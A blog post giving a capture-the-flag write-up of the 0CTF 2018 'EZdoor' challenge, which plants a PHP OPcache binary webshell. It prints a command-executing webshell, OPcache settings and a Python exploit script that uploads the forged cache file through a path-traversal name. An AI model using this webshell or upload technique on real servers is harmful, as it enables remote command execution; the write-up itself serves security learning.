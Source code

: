 ```yaml
---
layout: post
title:  "0CTF - EZdoor Web Challenge Writeup"
comments: true
image: ''
date:   2018-04-10 00:06:31
tags:
- Web Security, CTF, 0CTF 2018, 0CTF Quals, PHP OPcache, PHP, Binary-PHP
description: 'Sunshine CTF 2018 web challenges writeup'
categories:
- Web, CTF, 0CTF Quals, Web Security
---
```


Challenge name: `EZdoor`

Link: `http://202.120.7.217:9527`

In this challenge, we are greeted with the <a href="https://github.com/gokulkrishna01/gokulkrishna01.github.io/tree/master/scripts/0CTF/source.php">source code</a>:

Breaking down the code,

{% highlight php %}

if(!file_exists($dir . "index.php")){
  touch($dir . "index.php");
}

{% endhighlight %}

does create a new `index.php` file if not created already.

This question was kind of similar to the one we had for ASIS CTF finals couple of years back. This made me realise that it was related to OPCache and since there was a <a href="http://gosecure.net/2016/04/27/binary-webshell-through-opcache-in-php-7/">writeup</a>, probably a research, on the same.

So going line by line, we were provided with 5 different functionalities - `pwd` for the `path`, `phpinfo` which provides the info page, `reset` to clear the directory, `time` to show the timestamp (this will prove to be important later) & `upload` option to upload our file.

Understanding the problem deeper, `OPCache` is the built-in caching engine with PHP 7.0.* versions. It not only compiles PHP scripts and sets the resulting bytecode in memory but also, offers caching in the filesystem when specifying a destination folder in `PHP.ini` file.

You can find the line `opcache.file_cache=/tmp/opcache` in `PHP.ini` file. Inside this folder, `OPCache` stores its compiled PHP scripts in the same folder where the PHP code is written. So essentially, a compiled version of `/var/www/index.php` will be stored in `/tmp/opcache/<system_id>/var/www/index.php.bin`.

To generate a `phpbin` file, create a `index.php` file with contents:


```
<?php
   system($_GET['cmd']);
?>
```


and then, `php -S 127.0.0.1:8080` and a simple `wget 127.0.0.1:8080` generated the `phpbin` file.

Also for this, the `php.ini` files has to be updated in the following way:


```
opcache.enable=1
opcache.validate_timestamps=1
opcache.file_cache= "/var/www/html/cache"
opcache.file_cache_only=1
```

Now to calculate the `system_id`, we have got a tool over <a href="https://github.com/GoSecure/php7-opcache-override">here</a> and with that, we can identify what we want to calculate.

To calculate the above, the parameters were `php_version = 7.0.28` , `zend_extension_id: API320151012,NTS` and `zend_bin_id: BIN_SIZEOF_CHAR48888`.

Calculation of `system_id` : `digest = hashlib.md5(php_version + zend_extension_id + zend_bin_id).hexdigest()`

Now about solving the challenge, firstly, to control the cache file, we mainly need to get hold of two parameters, `timestamp` and `opchache_ID`.


After generating the system ID, grab the `timestamp`. Set this to the OPcached web-shell (index.php.bin) to bypass opchache.validation_timestamp and upload it.

The final script was:

```
import struct
import requests

URL = "http://202.120.7.217:9527/"
sid = "7badddeddbd076fe8352e80d8ddf3e73"
UID = "c607e0c365ae4a0ea516aadaad3db7adfe45df9c" #constant
SID = "7badddeddbd076fe8352e80d8ddf3e73" #SystemID calculated

requests.get(URL+"?action=reset")
print "Reset done"


timestamp = int(requests.get(URL+"?action=time").text)
print "Time stamp: " + str(ts)


f = open("index.php.bin").read()

path = f[:8]+sid+f[40:64]+struct.pack("I", timestamp)+f[68:] #this is done to replace the SystemID and timestamp with a custom one in an already existing one

requests.post(
    URL+"?action=upload&name=../../../../../tmp/cache/"+SID+"/var/www/html/sandbox/"+UID+"/index.php.bin"
    , files=dict(file=path)
    )
```


Reach me out on <a href="">Twitter</a> for more queries.
